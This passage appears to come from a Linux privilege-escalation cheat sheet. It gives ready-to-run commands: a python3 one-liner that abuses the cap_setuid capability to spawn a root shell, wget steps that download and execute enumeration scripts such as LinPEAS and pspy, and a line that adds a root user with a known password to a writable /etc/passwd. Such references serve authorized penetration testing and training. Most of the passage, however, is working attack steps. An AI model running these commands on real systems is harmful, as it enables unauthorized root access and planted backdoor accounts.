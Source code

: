 ### Capabilities
```bash
# Find files with capabilities
getcap -r / 2>/dev/null

# Common capability exploits
# cap_setuid+ep on python3
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

## Automated Tools

### LinPEAS
```bash
# Download and run LinPEAS
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### LinEnum
```bash
# Download and run LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### Linux Smart Enumeration (LSE)
```bash
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
chmod +x lse.sh
./lse.sh
```

### pspy (Process monitoring)
```bash
# Monitor processes without root
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64
```

## Common Exploits and Techniques

### Writable /etc/passwd
```bash
# If /etc/passwd is writable
echo 'hacker:$1$hacker$TzyKlv0KdCNAMANM5sFmC.:0:0:root:/root:/bin/bash' >> /etc/passwd
# Password: hacker
```
